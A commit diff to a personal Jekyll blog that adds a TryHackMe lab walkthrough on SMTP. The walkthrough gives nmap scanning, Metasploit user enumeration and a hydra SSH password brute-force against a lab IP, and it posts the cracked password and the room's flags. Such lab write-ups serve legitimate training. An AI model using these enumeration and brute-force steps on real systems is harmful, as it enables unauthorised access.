

Before and after one commit to BarryCui/barrycui.github.io, a Jekyll site: the page built from _posts/2022-06-14-network-services2.md, in a window 1280 px wide. Shown: the whole page at 31% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
add tasks

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -40,11 +40,9 @@ owner:
   name: 崔芷菘的网络日志
   avatar: avatar.jpg
   job: "Senior System Operations Engineer"
-  bio: "致力于成长为一名优秀的道德黑客。
-  现在坐标上海。喜欢创造、分享，喜欢研究网络安全相关的技术。
-  英语爱好者，有时会翻译一些东西，Zabbix6.0官方译者。
-  喜欢健身，有时会写一些小说。
-  开这个博客的目的是为了在被现实社会捶打的当下，不让自己的表达欲和创造力消失殆尽。"
+  bio: "爱自由，爱文学。致力于成长为一名优秀的道德黑客。
+  沈阳人，佛系的大龄男青年。现在坐标上海。
+  Zabbix6.0官方译者。"
   email: cuizhidong2017@gmail.com
   disqus-shortname: #username
   twitter:  #username
--- a/_posts/2022-06-14-network-services2.md
+++ b/_posts/2022-06-14-network-services2.md
@@ -149,3 +149,161 @@ cat root.txt
 ```
 
 > THM{nfs_got_pwned}
+
+### Task 5
+
+**What does SMTP stand for?**
+
+> Simple Mail Transfer Protocol
+
+**What does SMTP handle the sending of? (answer in plural)**
+
+> emails
+
+**What is the first step in the SMTP process?**
+
+> SMTP handshake
+
+**What is the default SMTP port?**
+
+> 25
+
+**Where does the SMTP server send the email if the recipient's server is not available?**
+
+> SMTP queue
+
+**On what server does the Email ultimately end up on?**
+
+> POP/IMAP
+
+**Can a Linux machine run an SMTP server? (Y/N)**
+
+> Y
+
+**Can a Windows machine run an SMTP server? (Y/N)**
+
+> Y
+
+### Task 6
+
+**First, lets run a port scan against the target machine, same as last time. What port is SMTP running on?**
+
+```
+nmap -A -p1-10000 10.10.59.93
+```
+
+> 25
+
+**Okay, now we know what port we should be targeting, let's start up Metasploit. What command do we use to do this?**
+
+**If
+ you would like some more help, or practice using, Metasploit, Darkstar
+has an amazing room on Metasploit that you can check out here:**
+
+https://tryhackme.com/room/rpmetasploit
+
+```
+msfconsole
+```
+
+> msfconsole
+
+**Let's search for the module "smtp_version", what's it's full module name?**
+
+```
+search smtp_version
+```
+
+> auxiliary/scanner/smtp/smtp_version
+
+**Great, now- select the module and list the options. How do we do this?**
+
+```
+options auxiliary/scanner/smtp/smtp_version
+```
+
+> options
+
+**Have a look through the options, does everything seem correct? What is the option we need to set?**
+
+> RHOSTS
+
+**Set that to the correct value for your target machine. Then run the exploit. What's the system mail name?**
+
+```
+set RHOSTS 10.10.59.93
+use auxiliary/scanner/smtp/smtp_version
+exploit
+```
+
+> polosmtp.home
+
+**What Mail Transfer Agent (MTA) is running the SMTP server? This will require some external research.**
+
+> Postfix
+
+**Good! We've now got a good amount of
+information on the target system to move onto the next stage. Let's
+search for the module "*smtp_enum*", what's it's full module name?**
+
+```
+search smtp_enum
+```
+
+> auxiliary/scanner/smtp/smtp_enum
+
+**We're going to be using the *"top-usernames-shortlist.txt"* wordlist from the Usernames subsection of seclists (/usr/share/wordlists/SecLists/Usernames if you have it installed).**
+
+**Seclists
+ is an amazing collection of wordlists. If you're running Kali or Parrot
+ you can install seclists with: "sudo apt install seclists"
+Alternatively, you can download the repository from [here](https://github.com/danielmiessler/SecLists).**
+
+**What option do we need to set to the wordlist's path?**
+
+```
+options auxiliary/scanner/smtp/smtp_enum
+set USER_FILE /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt
+```
+
+> USER_FILE
+
+**Once we've set this option, what is the other essential paramater we need to set?**
+
+```
+set RHOSTS 10.10.59.93
+```
+
+> RHOSTS
+
+**Now, run the exploit, this may take a few minutes, so grab a cup of tea, coffee, water. Keep yourself hydrated!**
+
+```
+use auxiliary/scanner/smtp/smtp_enum
+exploit
+```
+
+> No answer needed
+
+**Okay! Now that's finished, what username is returned?**
+
+> administrator
+
+### Task 7
+
+**What is the password of the user we found during our enumeration stage?**
+
+```
+hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.59.93 ssh
+```
+
+> alejandro
+
+**Great! Now, let's SSH into the server as the user, what is contents of smtp.txt**
+
+```
+ssh administrator@10.10.59.93
+cat smtp.txt
+```
+
+> THM{who_knew_email_servers_were_c00l?}
````
